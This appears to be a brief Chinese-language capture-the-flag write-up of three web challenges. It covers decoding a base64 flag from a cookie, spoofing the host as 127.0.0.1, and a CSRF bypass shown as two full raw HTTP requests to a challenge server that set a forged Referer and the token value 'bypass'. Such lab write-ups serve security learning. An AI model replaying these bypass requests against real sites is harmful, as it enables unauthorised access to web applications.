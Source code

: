 # CTF-1

## Web-1

cookie里有flag字段：ZmxhZ3tjb29raWVzLWNvbnRhaW4taW5mb30%3D，url解码+base64解密即可获得flag{cookies-contain-info}



## web-2

name为root，然后host为127.0.0.1即可：

![image-20231101130346979](CTF-1.assets/image-20231101130346979.png)



## web-3

参考：

https://cloud.tencent.com/developer/article/1078464

```bash
GET /ga/ HTTP/1.1
Host: 222.186.168.238:30003
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
Content-Security-Policy:* .google-analytics.com
Cookie: session=072973b5-b36c-4b88-80f3-c0e65670543f.6jBMMw3_jaIyQLWh9yW9ZvlWi2A; FLAG=ZmxhZ3tjb29raWVzLWNvbnRhaW4taW5mb30%3D; csrftoken=8C29ikcCSHxfTMK4W0oj07XkkMfcp5iJ
Connection: close
Referer: http://222.186.168.238:30003/]csrftoken=bypass
Content-Length: 0

```

再都设置为bypass：

```http
POST /csrf/ HTTP/1.1
Host: 222.186.168.238:30003
Content-Length: 26
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://222.186.168.238:30003
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://222.186.168.238:30003/csrf/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: session=072973b5-b36c-4b88-80f3-c0e65670543f.6jBMMw3_jaIyQLWh9yW9ZvlWi2A; FLAG=ZmxhZ3tjb29raWVzLWNvbnRhaW4taW5mb30%3D; csrftoken=bypass
Connection: close

csrfmiddlewaretoken=bypass
```

即可获得flag：

![image-20231101130503589](CTF-1.assets/image-20231101130503589.png)





